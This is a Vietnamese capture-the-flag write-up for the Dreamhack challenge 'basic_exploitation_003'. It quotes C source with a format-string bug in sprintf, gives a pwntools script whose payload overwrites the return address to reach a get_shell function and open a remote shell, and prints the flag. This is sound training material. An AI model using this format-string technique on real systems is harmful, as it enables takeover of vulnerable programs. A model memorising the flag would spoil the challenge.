



**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

Chương trình cho phép nhập vào biến `heap_buf` rồi sau đó dùng hàm `sprintf` chuyển dữ liệu qua biến `stack_buf`. Nhưng ở đây không có `%s` nên có lỗi `format string`. Sau đó in giá trị ở biến `stack_buf` ra màn hình.

**2. Ý tưởng**

Chèn địa chỉ hàm `get_shell` vào sau lệnh `ret`.

**3. Khai thác**

Đặt breakpoint ở lệnh `read` để kiểm tra xem biến `heap_buf` xem cách ebp bao nhiêu.





2 biến trên cách nhau 40. Nên nhập `%38$p` nhân với 0x80/8 = 16 lần rồi chèn địa chỉ hàm `get_shell` vào.

```
payload = b'%38$p'*16
payload += p32(exe.sym['get_shell'])
r.sendline(payload)
```

Nhưng ko được nên lùi về 15 và thêm 6 byte rác nữa. Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_003', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12587)

input()
payload = b'%38$p'*15
payload += b'a'*6
payload += p32(exe.sym['get_shell'])
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**



`Flag: DH{4e6e355c62249b2da3b566f0d575007e}`